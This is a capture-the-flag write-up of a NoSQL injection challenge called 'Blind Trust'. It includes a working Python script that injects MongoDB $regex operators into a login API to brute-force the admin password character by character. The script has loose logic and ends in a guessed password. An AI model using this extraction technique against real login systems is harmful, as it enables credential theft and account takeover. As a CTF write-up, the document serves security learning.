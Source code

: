 ```yaml
---
description: NOSQLi
---
```


# Blind Trust

{% code title="description.txt" overflow="wrap" %}
```
The database remembers everything... but whispers only to those who ask properly.
```
{% endcode %}

### Homepage

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

### NoSQLi

I tried with SQLi payloads which ofc resulted me failure,\
upon trying for nosql, it gave me _half_ success.

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

So we need to bruteforce admin password? \
&#xNAN;_&#x53;hort answer: yes!_

This python script does our work:

{% code title="bruteforce.py" %}
```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://15.207.248.78:50020/api/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 200:
                print("Found one more char : %s" % (password+c))
                password += c
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

The extra `$$` works because your regex still matches the real password, likely `s3cr3tPass`.\
MongoDB's regex engine or backend may ignore or mishandle extra `$` symbols.

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning.
